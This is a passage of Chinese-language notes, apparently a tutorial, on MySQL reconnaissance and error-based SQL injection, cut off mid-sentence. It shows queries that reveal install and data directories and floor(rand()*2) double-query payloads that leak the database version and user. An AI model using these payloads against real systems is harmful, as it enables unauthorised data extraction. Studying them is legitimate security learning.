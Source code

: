 ## 非注入的信息搜集

通过mysql函数和全局变量 查找mysql安装目录

```python
mysql> select @@basedir;
+-----------+
| @@basedir |
+-----------+
| /usr/     |
+-----------+
1 row in set (0.01 sec)

mysql> select @@datadir;
+-----------------+
| @@datadir       |
+-----------------+
| /var/lib/mysql/ |
+-----------------+
1 row in set (0.00 sec)

mysql> show variables like 'datadir';
+---------------+-----------------+
| Variable_name | Value           |
+---------------+-----------------+
| datadir       | /var/lib/mysql/ |
+---------------+-----------------+
1 row in set (0.01 sec)
```

@@ 用于系统变量

@ 往往用于用户定义的变量

# 几大常见的注入类型

## 报错注入

### floor()

（8.x>mysql>5.0）[双查询报错注入]。函数返回小于或等于指定值（value）的最小整数,取整。

floor(rand()*2)的值是0或者1

```python
SELECT COUNT(*), CONCAT((SELECT VERSION()), FLOOR(RAND()*2))AS a FROM information_schema.tables GROUP BY a;
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a;
```

派生表也行。select 1 from (table name); 这样的语法来报错，具体就是
